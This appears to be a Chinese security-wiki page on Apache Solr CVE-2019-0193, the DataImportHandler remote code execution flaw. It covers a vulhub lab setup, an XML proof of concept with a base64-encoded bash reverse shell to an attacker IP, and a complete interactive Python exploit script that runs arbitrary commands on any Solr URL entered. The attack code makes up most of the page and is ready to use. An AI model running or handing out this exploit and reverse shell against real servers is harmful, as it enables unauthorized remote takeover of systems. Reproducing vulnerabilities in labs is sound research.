



# Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 影响版本

```
Apache Solr < 8.2.0
```

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可


## 漏洞复现

点击刚刚创建的test进入调试

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```python
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码




成功反弹shell

## 漏洞POC

```python
POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```



## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)